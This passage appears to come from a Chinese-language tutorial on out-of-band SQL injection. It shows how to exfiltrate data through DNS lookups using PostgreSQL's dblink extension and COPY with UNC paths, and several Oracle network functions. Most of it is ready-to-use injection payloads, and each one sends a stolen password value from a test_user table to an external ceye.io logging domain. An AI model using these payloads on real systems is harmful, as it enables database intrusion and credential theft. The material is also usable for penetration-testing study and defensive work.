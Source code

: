 ```
END;

$$ LANGUAGE plpgSQL SECURITY DEFINER;

SELECT temp_function();

```

因为这里的copy需要的参数是文件路径，所以这里其实也是利用了UNC路径，因此这个方式也只能在windows下使用

#### db_link扩展

db_link是PostreSQL用来连接其他的数据库的扩展，用法也很简单，而且可以嵌套子查询，那就很方便了
```
dblink('连接串', 'SQL语句')
http://127.0.0.1/pgsql.php?id=1;CREATE EXTENSION dblink; 
SELECT * FROM dblink('host='||(select encode(pass::bytea,'hex') from test_user where id =1)||'.vvv.psql.3.nk40ci.ceye.io user=someuser dbname=somedb', 
'SELECT version()') RETURNS (result TEXT);
```

CREATE EXTENSION dblink; 就是打开这个扩展，因为这个扩展默认是关闭的。

### Oracle
Oracle的利用方式就太多了，因为Oracle能够发起网络请求的模块是很很多的。

列举几个:

- UTL_HTTP.REQUEST
```
select name from test_user where id =1 union SELECT UTL_HTTP.REQUEST((select pass from test_user where id=1)||'.nk40ci.ceye.io') FROM sys.DUAL;

```

- DBMS_LDAP.INIT

```
select name from test_user where id =1 union SELECT DBMS_LDAP.INIT((select pass from test_user where id=1)||'.nk40ci.ceye.io',80) FROM sys.DUAL;
```

- HTTPURITYPE
```
select name from test_user where id =1 union SELECT HTTPURITYPE((select pass from test_user where id=1)||'.xx.nk40ci.ceye.io').GETCLOB() FROM sys.DUAL;
```

- UTL_INADDR.GET_HOST_ADDRESS
```
select name from test_user where id =1 union SELECT UTL_INADDR.GET_HOST_ADDRESS((select pass from test_user where id=1)||'.ddd.nk40ci.ceye.io') FROM sys.DUAL; 
```

tips：oracle是不允许select语句后面没有表的，所以此处可以跟一个伪表dual

- Oracle其他一些能够发起网络请求的模块：
  - UTL_HTTP
  - UTL_TCP
  - UTL_SMPTP
  - UTL_URL
 

### 总结
有些函数的使用操作系统的限制。
dns查询有长度限制，所以必要的时候需要对查询结果做字符串的切割。
避免一些特殊符号的产生，最好的选择就是数据先编码再带出。
注意不同数据库的语法是有差异的，特别是在数据库拼接的时候。
有些操作是需要较高的权限。